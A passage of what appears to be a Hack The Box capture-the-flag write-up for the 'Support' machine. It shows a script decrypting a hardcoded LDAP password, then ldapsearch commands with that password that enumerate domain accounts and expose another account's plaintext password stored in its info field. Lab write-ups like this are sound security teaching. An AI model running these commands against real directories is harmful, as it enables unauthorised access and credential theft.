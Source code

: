 **Output:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# python3 decrypt_password.py
[+] Decrypted password is: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Also, in dnSpy, I also found that the LDAP connection is using username `support`.

**Found it! Now, let's enumerate usernames via the LDAP protocol**! 
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# ldapsearch -x -H ldap://$RHOSTS -b 'dc=support,dc=htb' -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 'sAMAccountName' | grep sAMAccountName                  
# requesting: sAMAccountName 
sAMAccountName: Administrator
sAMAccountName: Guest
sAMAccountName: Administrators
sAMAccountName: Users
sAMAccountName: Guests
[...]
sAMAccountName: ldap
sAMAccountName: support
sAMAccountName: smith.rosario
sAMAccountName: hernandez.stanley
sAMAccountName: wilson.shelby
sAMAccountName: anderson.damian
sAMAccountName: thomas.raphael
sAMAccountName: levine.leopoldo
sAMAccountName: raven.clifton
sAMAccountName: bardot.mary
sAMAccountName: cromwell.gerard
sAMAccountName: monroe.david
sAMAccountName: west.laura
sAMAccountName: langley.lucy
sAMAccountName: daughtler.mabel
sAMAccountName: stoll.rachelle
sAMAccountName: ford.victoria
sAMAccountName: MANAGEMENT$
sAMAccountName: attackersystem$
sAMAccountName: sysr3llPC$
sAMAccountName: shrekt$
sAMAccountName: eclipse$
```

Hmm... The user `support` stood out, as it doesn't follow the `<firstname>.<lastname>` pattern.

**Let's extract it's info!**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# ldapsearch -x -H ldap://$RHOSTS -b 'dc=support,dc=htb' -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=support,CN=Users,DC=support,DC=htb'
[...]
# support, Users, support.htb
[...]
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
[...]
```
